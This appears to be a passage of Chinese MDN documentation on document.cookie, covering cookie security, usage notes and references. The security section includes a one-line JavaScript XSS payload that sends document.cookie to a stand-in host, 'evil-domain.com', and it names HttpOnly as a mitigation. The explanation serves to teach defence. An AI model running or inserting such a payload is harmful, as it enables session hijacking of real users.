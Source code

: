 Web应用程序通常使用cookies来标识用户身份及他们的登录会话. 

因此通过窃听这些cookie, 就可以劫持已登录用户的会话. 窃听的cookie的常见方法包括社会工程和XSS攻击 -

`(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;`

`HttpOnly` 属性可以阻止通过javascript访问cookie, 从而一定程度上遏制这类攻击. 参见 [Cookies and Security](http://www.nczonline.net/blog/2009/05/12/cookies-and-security/).

# 备注

- 从 Firefox 2 起, 有更好的客户端存储机制用以替代 cookie - [WHATWG DOM Storage](https://developer.mozilla.org/zh-CN/docs/DOM/Storage).
- 你可以通过更新一个cookie的过期时间为0来删除一个cookie。
- 请注意, 更多/更大的 cookies 意味着每个请求都要包含更繁重的数据传输. 如果您只是需要存储些 "client-only" 的数据, 那么郑重建议您使用 [WHATWG DOM Storage](https://developer.mozilla.org/zh-CN/docs/DOM/Storage).

# 规范

[DOM Level 2: HTMLDocument.cookie](http://www.w3.org/TR/DOM-Level-2-HTML/html.html#ID-8747038)

# Reference

- [HTTP cookies](https://developer.mozilla.org/zh-CN/docs/Web_Development/HTTP_cookies)
- [Cookies](https://developer.mozilla.org/zh-CN/docs/Code_snippets/Cookies) (Code snippets)

